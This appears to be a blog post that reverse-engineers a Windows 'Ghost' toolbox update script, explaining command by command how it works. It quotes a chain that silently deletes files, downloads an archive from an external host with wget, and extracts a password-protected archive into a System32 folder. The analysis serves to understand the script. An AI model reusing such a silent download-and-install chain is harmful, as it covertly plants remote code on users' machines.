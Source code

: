 ----

## Breaking it down

Let's start to break this down line by line and bit by bit, starting with `del /q /f wget\update`.

`del` is a command short for Delete in Windows, so it is safe to assume that we are going to delete a file. `/q` makes it so it doesn't put an output into the prompt, which in this case, would just be hiding "The operation has completed." or something similar. `/f` means to forcfully delete something, no matter what. Finally, `wget\update` is a path, where `wget\` is a folder and `update` is a file. So the command is telling Windows to delete a file called `update` in the folder `wget`... Interesting.

The next line (`del /a /q /f %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd`) does something similar, only changing out the path for `%Windir%\System32\migwiz\dlmanifests\run.ghost.cmd` instead of `wget\update`. Interesting, that tells me that the file we are running is stored in the folder called `C:\Windows\System32\migwiz\dlmanifests\`, as `%windir%` is another system variable that points to `C:\Windows\`... But when I try visiting the folder, I don't see a file named `run.ghost.cmd`, which is a batch file... Strange, let's keep breaking this down...

The next line (`wget\wget.exe -q --backups=1 http://xcazy.the-ninja.jp/update/2021/x64/toolbox.update -t 0 -O wget\update`) is interesting, as we are running a program called `wget`, which is a simple program to download files from the internet. We see a similar argument to hide the output as before called `-q`, so removing that will show us the output should we run `wget` on it's own. We will be ignoring the backups part as it isn't relevent here. Next we see a URL, which makes sense since we are pulling a file from the internet... when I tried visiting it the first time, I thought it would have blocked me because I am not downloading it from the toolbox itself... but no! It actually downloads the file in my browser. I was really interested in this file... but let's keep breaking down this command. `-t 0` tells `wget` to just keep retrying infinitely should it fail. Finally, `-O wget\update` tells `wget` to store the file in the `wget` folder, and call the file `update`. Let's keep looking and see what it does next...

The next command it runs is `wget\7z1900-extra\x64\7za x wget\update -aoa -pghostX2021 -o%Windir%\System32\migwiz\dlmanifests`. The start of it, `wget\7z1900-extra\x64\7za` is telling us that the program is now running a archive program called `7za`, which is part of [7-Zip](https://7-zip.org/). The next part is an argument called `x`, which is short for extract in `7za`. So we are going to be extracting something... interesting. The next part is `wget\update`, which is the file that `wget` just saved. Really interesting! That tells us that the file we just downloaded is actually just an archive! And opening it with 7-zip does indeed confirm that, with a file inside if it simply called `toolbox.cmd`!

<img alt="A screenshot of 7-zip, showing the contents of the 'update' file mentioned above" src="/asset/img/post-assets/rev-eng-ghost/7zip.png">
